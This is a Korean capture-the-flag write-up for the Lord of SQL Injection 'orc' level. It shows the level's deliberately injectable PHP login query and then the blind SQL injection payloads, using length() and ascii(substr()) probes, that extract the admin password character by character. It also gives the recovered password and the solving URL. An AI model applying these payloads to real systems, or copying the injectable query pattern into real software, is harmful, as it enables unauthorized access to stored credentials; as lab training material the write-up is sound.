





# **LOS orc**

##  **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
`addslashes()` 함수는 `'` , `"` 에 슬래쉬를 붙여준다. 따라서 싱글쿼트('), 더블쿼트("), 백슬래시(\) 를 문자열로 처리한다.  
이 문제를 풀기 위해서는 `LENGTH()` 함수와 `SUBSTR()` 함수가 필요하다.  

**LENGTH()**  
문자열의 길이를 숫자값으로 표시한다.  

**SUBSTR()**  
지정한 길이의 문자열을 출력한다.

따라서 패스워드의 길이를 알아내고 그다음에 `SUBSTR()` 을 이용하여 `pw` 내에 1번째 자리부터 1개 출력하게하고 그 값을 비교하여 참인 값을 계속 찾아서 8번째 값까지 비교하여 풀면된다.

>`pw` 길이 알아내기

`select id from prob_orc where id='admin' and pw='' or 1 and length(pw)>1#'`


`select id from prob_orc where id='admin' and pw='' or 1 and length(pw)=8#'`



>`pw` 알아내기

ascii 를 이용해서 참이 되는 값의 범위를 천천히 줄여가면서 찾아야 한다.   

* 2

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,1,1))=50#'`


* 9

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,2,1))=57#'`


* 5

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,3,1))=53#'`


* d

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,4,1))=100#'`



* 5

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,5,1))=53#'`



* 8

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,6,1))=56#'`


* 4

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,7,1))=52#'`



* 4

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,8,1))=52#'`


##  **Query**
>Query
```php
select id from prob_orc where id='admin' and pw='295d5844'
```

>Input value
```
http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844
```

##  **Attack**

